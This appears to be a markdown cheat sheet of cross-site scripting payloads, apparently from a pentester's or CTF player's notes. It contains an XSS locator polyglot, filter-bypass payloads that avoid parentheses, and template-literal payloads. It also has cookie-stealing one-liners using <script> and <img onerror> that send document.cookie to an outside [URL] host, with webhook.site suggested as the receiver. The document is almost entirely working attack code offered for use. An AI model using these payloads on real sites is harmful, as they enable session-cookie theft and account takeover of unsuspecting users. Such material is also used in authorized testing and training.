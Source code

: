 # General Resources
[Webhook.site](https://webhook.site/) - Basically required to steal cookies without Burp Collaborator
[Portswigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) - XSS payload search (useful for making Burp Intruder payloads)

# XSS Locator
Paste this into any area you suspect is vulnerable to XSS
```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

# Stealing Cookies
Some quick payloads for stealing cookies ``o(￣▽￣)ｄ``
## General One-Liner (Use this one first)
```javascript
<script>var i=new Image;i.src="[URL]/?"+document.cookie;</script>
// Example usage of above:
	onmouseover=eval(var i=new Image;i.src="[URL]/?"+document.cookie;)
```
## Using ``<img>`` Tag
```javascript
<img src=x onerror="this.src='[URL]/?'+document.cookie;this.removeAttribute('onerror');"/>
```

# Filter Bypasses
## HTML Entities
For a useful list of HTML entities, see the [HTML](Web/Encodings/HTML.md) page
```javascript
<IMG SRC=javascript:alert(&quot;1&quot;)>
```
## No parentheses
Some XSS payloads that dont require parentheses, the full list is available [here](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
```javascript
alert`23`

eval.call`${'alert\x2823\x29'}`

eval.apply`${[`alert\x2823\x29`]}`

setTimeout`alert\x2823\x29`
setInterval`alert\x2823\x29`

onerror=alert;throw 23;

window.name='javascript:alert\x2823\x29';
Reflect.set.call`${location}${'href'}${name}`

Reflect.apply.call`${alert}${undefined}${[23]}`

navigation.navigate`javascript:alert\x2823\x29`

var{haha:onerror=alert}=0;throw 1
var{a:onerror}={a:alert};throw 1

'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}

{onerror=alert}throw 23

throw{},onerror??=alert,"XSS"??123

[].sort.call`${alert}23`

[].map.call`${eval}\\u{61}lert\x2823\x29`

window.name='javascript:alert(23)';
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`;
```

# AngularJS
See [PayloadsAllTheThings - XSS in AngularJS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

# XSS Template Literal Payloads
Taken from [here](https://security.stackexchange.com/questions/241016/xss-with-template-literals)
```javascript
alert(1)
${alert(1)}
alert(1);
${alert(1)};
`alert(1)`
`${alert(1)}`
`${alert(1)}`;
alert(1);
${alert(1)}/*
```

